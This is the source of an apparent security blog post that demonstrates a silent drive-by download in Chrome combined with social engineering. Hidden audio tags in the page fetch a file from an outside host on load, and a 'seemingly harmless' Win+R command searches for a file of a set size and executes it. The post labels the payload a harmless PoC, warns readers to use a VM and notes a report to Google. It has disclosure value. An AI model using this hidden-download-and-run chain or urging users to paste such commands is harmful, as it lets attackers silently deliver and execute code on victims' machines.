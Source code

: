 ```yaml
---
layout: post
title: Don't run commands you don't understand
comments: true
---
```


This demonstrates a silent drive-by download in Google Chrome (rather similar to CVE-2011-0611, less the actual execution), as well as some social engineering magic: a PoC binary will execute if the below seemingly harmless command line is entered in a **Win+R** prompt on a Windows system. Note that you may need to wait for a few seconds before the fun starts.

<div style= "padding: 2px 4px;  background-color: #de9393; padding-top: 9px ; border: 1px solid #ccc; display:table">
<div style= "padding: 2px 4px;  background-color: #de9393;  width:720px ; display:inline-block;">

<B>Keep safe!</B> To avoid unnecessary risk, only try this in a temporary VM.
</div>
</div>

**Harmless PoC executable**

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<IMG src=https://i.imgur.com/jgmi7XN.png>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
